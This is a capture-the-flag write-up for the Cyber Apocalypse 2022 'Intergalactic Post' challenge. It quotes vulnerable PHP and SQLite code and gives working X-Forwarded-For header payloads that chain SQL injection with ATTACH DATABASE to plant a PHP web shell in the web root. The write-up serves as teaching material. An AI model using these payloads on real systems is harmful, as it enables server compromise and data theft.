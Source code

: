 # Intergalactic Post - Cyber Apocalypse 2022

### Given Material
We have been provided with the source code of a web application working as a newsletter application. 
### Identifying the flaw
We can submit some dummy requests from the web app form to "subscribe" an email.

```JSON
{"POST":{"scheme":"http","host":"localhost:1337","filename":"/subscribe","remote":{"Address":"127.0.0.1:1337"}}}
```
And POST body:
```
email=my@email.com
```

Upon inspecting the code, the part that handles our request is the following:

```php
<?php
class SubscriberModel extends Model
{

    public function __construct()
    {
        parent::__construct();
    }

    public function getSubscriberIP(){
        if (array_key_exists('HTTP_X_FORWARDED_FOR', $_SERVER)){
            return  $_SERVER["HTTP_X_FORWARDED_FOR"];
        }else if (array_key_exists('REMOTE_ADDR', $_SERVER)) {
            return $_SERVER["REMOTE_ADDR"];
        }else if (array_key_exists('HTTP_CLIENT_IP', $_SERVER)) {
            return $_SERVER["HTTP_CLIENT_IP"];
        }
        return '';
    }
    
    public function subscribe($email)
    {
        $ip_address = $this->getSubscriberIP();
        return $this->database->subscribeUser($ip_address, $email);
    }
}
```
The given code that handles the database methods is also:

```php
<?php
class Database
{
    private static $database = null;

    public function __construct($file)
    {
        if (!file_exists($file))
        {
            file_put_contents($file, '');
        }
        $this->db = new SQLite3($file);
        $this->migrate();

        self::$database = $this;
    }

    public static function getDatabase(): Database
    {
        return self::$database;
    }

    public function migrate()
    {
        $this->db->query('
            CREATE TABLE IF NOT EXISTS `subscribers` (
                id INTEGER PRIMARY KEY AUTOINCREMENT,
                ip_address VARCHAR(255) NOT NULL,
                email VARCHAR(255) NOT NULL
            );
        ');
    }

    public function subscribeUser($ip_address, $email)
    {
        return $this->db->exec("INSERT INTO subscribers (ip_address, email) VALUES('$ip_address', '$email')");
    }
}
```

It seems that the email and ip address parameters are not sanitized properly hence we can inject SQL statements. 

### First (failed) attempt
At first, we tried to inject SQL statements at the email parameter but the following filter gets in the way.
```php
 public function store($router)
    {
        $email = $_POST['email'];

        if (empty($email) || !filter_var($email, FILTER_VALIDATE_EMAIL)) {
            header('Location: /?success=false&msg=Please submit a valild email address!');
            exit;
        }

        $subscriber = new SubscriberModel;
        $subscriber->subscribe($email);

        header('Location: /?success=true&msg=Email subscribed successfully!');
        exit;
    }
```
The FILTER_VALIDATE_EMAIL as a php built-in filter, uses the RFC 5321 standard which allows quoted strings and some special characters that could be useful in our injection. However the following working payloads were beyond the character limit the local-part of an email allows so injecting the email field lead to nowhere.

### Working Injection
The only field remaining to try to inject is the IP field. As we saw earlier in the code, the IP field gets filled with values from the php $_SERVER array. Those fields were not validated afterwards hence we can simpy place an HTTP header in our request that looks like the following and inject any given values in the IP field:

```
X-Forwarded-For: DUMMY_FIELD
```

### SQLite3 Injection + php = RCE
We can now execute SQL statements but we still need to read the flag under the /flag.txt path. The golden statement that worked a stepping stone was the following:

```sql
ATTACH DATABASE file_name AS database_name;
```

The statement associates the database file file_name with the current database connection under the logical database name database_name. If the database file file_name does not exist, the statement creates a new database file. We can attach a database with a dummy name and a php file extension under web root. The following header does exactly that and also creates a table for us to inject php code.

```
X-Forwarded-For: ','a');ATTACH DATABASE '/www/x.php' AS x;CREATE TABLE x.p (d text);
```

Finally another request with the following header writes the payload.
```
X-Forwarded-For: ','a');ATTACH DATABASE '/www/x.php' AS x;INSERT INTO x.p (d) VALUES ("<?php system('cat /flag*')?>");
```

Now we just have to visit /x.php with our browser to trigger our code.
![flagpoc](https://github.com/apostolides/ctf-writeups/blob/master/Cyber-Apocalypse-2022/Intergalactic_Post/flag.png)

Special thanks to [sealmove]([https://www.google.com](https://github.com/sealmove/) for helping with this challenge.
